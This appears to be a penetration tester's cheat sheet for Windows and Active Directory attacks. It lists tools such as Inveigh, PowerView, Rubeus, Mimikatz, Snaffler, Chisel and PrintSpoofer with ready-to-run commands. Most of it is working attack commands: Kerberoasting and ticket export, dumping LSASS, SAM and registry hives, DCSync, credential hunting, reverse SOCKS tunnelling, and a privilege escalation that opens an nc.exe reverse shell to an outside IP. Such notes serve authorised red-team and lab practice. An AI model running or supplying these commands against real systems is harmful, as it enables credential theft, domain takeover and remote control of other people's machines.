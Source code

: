 # tools

Inveigh.ps1
https://github.com/Kevin-Robertson/Inveigh/blob/master/Inveigh.ps1
Similar to Responder, for powershell
PS C:\> Import-Module .\Inveigh.ps1
PS C:\> (Get-Command Invoke-Inveigh).Parameters
PS C:\> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y


PowerView.ps1
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
Replacements for various Windows net*
PS C:\> import-module .\PowerView.ps1
PS C:\> Get-DomainPolicy
PS C:\> Get-DomainUser * -spn | select samaccountname  #to extract TGS tickets
PS C:\> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\all_tickets.csv -NoTypeInformation  #export to csv


nc.exe
https://github.com/int0x33/nc.exe/
netcat Win binary, for port listening and reverse shell 



printspoofer
To escalate with SeImpersonatePrivilege & SeAssignPrimaryTokenPrivilege
PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"


Rubeus
https://github.com/GhostPack/Rubeus
Kerberoasting from windows machine
PS C:\> .\Rubeus.exe kerberoast /stats  #to gather some stats
PS C:\> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap  #/nowrap to copy hash easily
PS C:\> .\Rubeus.exe kerberoast /user:"username" /nowrap  #to test spesific user
PS C:\> .\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap  #RC4 encryption when requesting a new service ticket


SharpHound.exe
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
To gather AD data for Bloodhound


Snaffler.exe
https://github.com/SnaffCon/Snaffler
Credential Enumeration
PS C:\> .\Snaffler.exe  -d <DomainName> -s -v data
  

Chisel
https://github.com/jpillora/chisel
Pre-compiled Chisel for port-forwarding, both linux and windows
sudo ./chisel server --reverse -v -p 1234 --socks5
./chisel.exe client -v <YourIP>:1234 R:socks
  

Lazagne
https://github.com/AlessandroZ/LaZagne
checks for passwords in common locations

  
Linpeas / Winpeas
Checks for possible priv esc for linux and windows
  
  
Mimikatz
https://github.com/ParrotSec/mimikatz
  
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords

#use lsass.DMP and put results to lsass.txt
#lsass.DMP can be acquired with right click lsass.exe and create dump method from task manager in details
mimikatz # sekurlsa::minidump lsass.DMP
mimikatz # log lsass.txt
mimikatz # sekurlsa::logonPasswords

# for dcsync abuse
mimikatz # lsadump::dcsync
mimikatz # lsadump::dcsync /user:<UserName>  #for spesific user only 


reg save HKLM\SAM sam.h  #to Dump SAM
reg save HKLM\SYSTEM sys.h  #to Dump SYSTEM
reg save HKLM\SECURITY sec.h  #to Dump SECURITY
mimikatz # lsadump::sam sys.h sam.h sec.h  #get hashes from these files with mimikatz

  
  
  
  
  
  
  
  
  










